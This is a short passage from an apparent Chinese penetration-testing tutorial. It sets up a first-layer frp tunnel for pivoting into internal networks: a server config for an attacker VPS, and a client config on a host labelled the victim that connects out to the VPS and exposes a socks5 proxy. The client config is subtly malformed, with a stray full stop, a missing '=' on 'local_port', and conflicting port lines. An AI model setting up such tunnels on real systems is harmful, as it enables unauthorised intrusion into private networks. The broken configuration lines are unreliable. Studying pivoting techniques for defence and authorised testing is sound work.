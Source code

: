 需要访问的多层网络内网主机

[![](assets/1708095858-26535cd7e241e2f9aa72abdec9b63665.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203746-23f00370-e8e6-1.png)

1、第一层代理搭建

服务端（vps）frps.ini 配置文件

```plain
[common]
bind_addr = 0.0.0.0
bind_port = 2222
```

客户端（受害者主机 192.168.11.128）frpc.ini 配置文件

```plain
[common]
server_addr = x.x.x.x
server_port = 2222

[http_proxy]
type = tcp
local_ip = 192.168.20.100
remote_port = 3333。
local_port 3333
plugin = socks5
```
